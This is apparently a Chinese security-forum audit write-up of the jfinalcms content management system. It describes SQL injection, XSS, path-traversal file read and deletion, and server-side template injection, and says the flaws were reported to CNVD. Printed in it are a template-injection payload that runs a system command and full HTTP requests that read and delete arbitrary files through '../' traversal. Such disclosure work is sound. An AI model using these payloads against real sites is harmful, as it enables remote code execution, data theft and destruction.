# 快速审计记录 (三)--jfinalcms - 先知社区

快速审计记录 (三)--jfinalcms

- - -

这个 cms 其实这个师傅已经审计的差不多了，只是我又找到一些别的有趣的点。  
[https://xz.aliyun.com/t/13259](https://xz.aliyun.com/t/13259?time__1311=mqmxnDBD9DyDuCDlxGo4%2Bh%3DOKuirK7jCeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ftab%2F1%3Fpage%3D2)

# SQL 注入

## 前置知识

jfinal 框架下的预处理为如下

```plain
Long count = Db.queryLong("select count(1) from cms_admin where username = ?",username);
```

使用占位符进行替代  
存在 SQL 注入的就是直接使用拼接进行数据查询

```plain
return paginate(pageNumber, pageSize, "select *", "from cms_admin where 1=1 "+filterSql+orderBySql);
```

可以看到进行拼接

## 漏洞代码

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705826657460-f26b3fbb-3dc9-4d74-8404-a74fd3ce6fec.png#averageHue=%23202226&clientId=udc11ffe9-a4f1-4&from=paste&height=123&id=cJm4r&originHeight=184&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29005&status=done&style=none&taskId=u23e060b2-55d5-4273-866e-3ebc1ab2feb&title=&width=1024)  
可以看到拼接 查找 source 点  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705826825854-6de2270b-97a9-401a-a612-c2d26a9c5a02.png#averageHue=%231f2124&clientId=udc11ffe9-a4f1-4&from=paste&height=489&id=z4TXA&originHeight=733&originWidth=1471&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=93789&status=done&style=none&taskId=uc1e53775-ad64-4280-a908-ae10297b0be&title=&width=980.6666666666666)

# XSS

这个系统基本上到处都是 XSS，这里就不展开分析了

# 前台任意文件读取

## 漏洞详情

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705820922080-dd57992e-b416-4f07-a7ba-b133eddfba3f.png#averageHue=%23eceff4&clientId=udc11ffe9-a4f1-4&from=paste&height=397&id=u07fee428&originHeight=595&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124277&status=done&style=none&taskId=ub1bd8bbd-72d1-4f13-9443-2972ce59ccc&title=&width=1024)  
接口参数`/common/down/file?fileKey`

## 代码详情

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705820961166-7e855054-47b9-47a5-984d-b0cf1638fa7e.png#averageHue=%2320252f&clientId=udc11ffe9-a4f1-4&from=paste&height=237&id=u51231c16&originHeight=355&originWidth=1525&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=50146&status=done&style=none&taskId=ud69c0f72-cd2b-4514-8637-4bfa3229464&title=&width=1016.6666666666666) 未过滤../造成任意文件读取

# SSTI

## 漏洞详情

```plain
#set((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\"calc.exe\")"))
```

## [](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821634804-a284a760-53d8-4cec-a400-2bcfc6025156.png#averageHue=%23e1b980&clientId=udc11ffe9-a4f1-4&from=paste&height=760&id=u8e63be11&originHeight=1140&originWidth=2151&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=295131&status=done&style=none&taskId=u0dd147a0-fac7-4547-98e8-b8d318113ee&title=&width=1434)

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821613990-aeba0c49-f2ee-4cab-acbd-26d8e4659852.png#averageHue=%23b9ccab&clientId=udc11ffe9-a4f1-4&from=paste&height=632&id=uc74bd9fd&originHeight=948&originWidth=1786&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=564988&status=done&style=none&taskId=ua17b52f7-7868-4e49-a0b7-728516cf42d&title=&width=1190.6666666666667)  
在模板管理处写入恶意代码，返回首页可以看到 代码被执行了。

## 代码详情

抓包的时候路由为`/admin/template/edit`  
`src/main/java/com/cms/controller/admin/TemplateController.java`  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821808760-f5f1a309-7bc4-43f2-a943-56059c800d53.png#averageHue=%2320242b&clientId=udc11ffe9-a4f1-4&from=paste&height=433&id=u0d2f2512&originHeight=649&originWidth=1602&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=128536&status=done&style=none&taskId=u32b83371-a4a0-48ae-8b58-4afea23d916&title=&width=1068)  
debug 的时候 可以看到对插入的内容没有任何检测  
当然 save 方法也是如此  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821894808-053df7b6-da95-476c-967f-2b014b46873d.png#averageHue=%231f2124&clientId=udc11ffe9-a4f1-4&from=paste&height=417&id=uad49202e&originHeight=625&originWidth=1426&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=97711&status=done&style=none&taskId=u81ce3e8e-b1f8-4ee0-b950-6bcac328a10&title=&width=950.6666666666666)  
复现到这里，感觉，后台又很多漏洞，不是很想复现了，于是我转眼开始看前台的洞，看看有没有未授权，后台有没有别的有意思的。  
于是找到了一个任意文件删除和前台的任意文件读取

# 任意文件删除

## 漏洞详情

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822232392-ebd4b60f-834f-4453-94fa-1f336d3ecb52.png#averageHue=%23f9f8f8&clientId=udc11ffe9-a4f1-4&from=paste&height=699&id=u726423c2&originHeight=1048&originWidth=2061&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=136649&status=done&style=none&taskId=u07be5324-663f-4916-8d0d-fab4056a889&title=&width=1374)

```plain
GET /admin/template/delete?fileName=../../../../../../../../../../../../../../../../../1.txt&directory=default HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Sec-Fetch-Dest: document
Sec-Fetch-User: ?1
Sec-Fetch-Mode: navigate
Referer: http://127.0.0.1:8888/admin/template?directory=default
Cookie: JSESSIONID=node015ngvb2ja0qa1wkafhnodmyx50.node0; _jfinal_captcha=f9a9d1bdbbe14e6fb43902e9fb6daec9; listQuery=directory%3Ddefault
Sec-Fetch-Site: same-origin
```

## 漏洞分析

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822183814-d857b0e9-5912-4f4b-9ae6-0f21e87eab1d.png#averageHue=%2320252d&clientId=udc11ffe9-a4f1-4&from=paste&height=303&id=u5c205cfa&originHeight=454&originWidth=1639&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=99326&status=done&style=none&taskId=u418ce407-d162-4d8b-85e7-bdf70bf55a0&title=&width=1092.6666666666667)  
没做任何过滤 可以删除任意文件

# 前台任意文件读取

## 漏洞详情

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822801905-1e1a598a-7d41-4d13-8e4c-b2806ca1bb60.png#averageHue=%238dbedc&clientId=udc11ffe9-a4f1-4&from=paste&height=433&id=ub6c50c71&originHeight=649&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=120685&status=done&style=none&taskId=u88946451-e2aa-496d-97a9-87b3944f13e&title=&width=1024)

```plain
GET /ajax/html?html=../../../../../../../../../../../../../1.txt HTTP/1.1
Host: 127.0.0.1:8888
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=node015ngvb2ja0qa1wkafhnodmyx50.node0; _jfinal_captcha=f9a9d1bdbbe14e6fb43902e9fb6daec9; listQuery=directory%3Ddefault
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
```

## 漏洞分析

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822783689-595b47d4-23ca-4bd8-950d-465b427454ff.png#averageHue=%231f2024&clientId=udc11ffe9-a4f1-4&from=paste&height=335&id=u9041c126&originHeight=502&originWidth=1089&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42233&status=done&style=none&taskId=u47de7ebe-ecfa-4893-a15d-1b0e3e12206&title=&width=726)  
目录穿越 直接渲染读取

## 小结

如上漏洞已经提交 CNVD 并且通过。  
这套代码已经一年多没有更新了，用来入门 jfinal 框架还是很不错的。
